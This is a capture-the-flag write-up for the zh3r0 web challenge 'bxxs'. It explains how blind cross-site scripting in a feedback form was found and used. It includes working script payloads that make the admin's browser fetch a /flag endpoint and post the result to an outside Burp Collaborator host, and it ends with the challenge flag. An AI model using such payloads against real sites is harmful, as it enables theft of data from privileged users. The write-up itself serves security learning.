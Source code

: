 ```yaml
---
layout: post
title: "bxxs"
author: "shreyas-sriram"
tags: ['Web']
---
```


We've made some new epic updates to our website. Could you send us some feedback on it ?

link - [bxxs](http://web.zh3r0.cf:3333)

## Solution
- The website contains a form which accepts feedback and sends it to the admin
- A quick check for blind XSS (clue from the challenge name?!) confirms the vulnerability

```
<script>
  location="//leet.burpcollaborator.net/";
</script>
```

- Attempts to read the admin cookie failed because of `httpOnly cookies`
- Another endpoint was guessed (ctfs, duh), `/flag`, however only the admin can view the contents
- The following payload can be used to obtain the flag

```
<script>
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
  if (this.readyState == 4) {
    var req = new XMLHttpRequest();
    req.open("POST", "http://leet.burpcollaborator.net/givemeflag?c="+window.location.href,true);
    req.send(xhttp.responseText);
  }
};
xhttp.open("GET", "http://0.0.0.0:8080/flag", true);
xhttp.send();
</script>
```

## Flag
```
zh3r0{{Ea5y_bx55_ri8}}
```
